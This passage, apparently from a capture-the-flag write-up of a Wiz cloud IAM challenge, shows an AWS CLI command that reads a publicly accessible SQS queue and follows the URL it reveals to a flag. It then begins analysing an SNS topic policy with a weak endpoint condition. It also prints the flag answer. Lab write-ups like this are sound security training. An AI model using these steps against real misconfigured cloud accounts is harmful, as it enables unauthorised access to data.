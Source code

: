    ```bash
   aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2
   ```

   The message body revealed a URL to a file in an S3 bucket:

   ```json
   {
     "URL": "https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html",
     "User-Agent": "Lynx/2.5329.3258dev.35046 libwww-FM/2.14 SSL-MM/1.4.3714",
     "IsAdmin": true
   }
   ```

3. **Accessing the Flag:**
   - I used `curl` to access the provided URL, which led to the following flag:

   ```
   {wiz:you-are-at-the-front-of-the-queue}
   ```

---

### Challenge 3: Enable Push Notifications

#### Objective:

The challenge involves subscribing to an SNS (Simple Notification Service) topic to receive push notifications. The IAM policy restricts subscriptions to endpoints with the domain `@tbic.wiz.io`.

#### Steps Taken:

1. **IAM Policy Analysis:**
   - The policy allows any user to subscribe to the SNS topic as long as the endpoint is of the form `@tbic.wiz.io`.

   ```json
   {
     "Version": "2008-10-17",
     "Id": "Statement1",
     "Statement": [
       {
         "Sid": "Statement1",
         "Effect": "Allow",
         "Principal": {
           "AWS": "*"
         },
         "Action": "SNS:Subscribe",
         "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
         "Condition": {
           "StringLike": {
             "sns:Endpoint": "*@tbic.wiz.io"
           }
         }
       }
     ]
   }
   ```
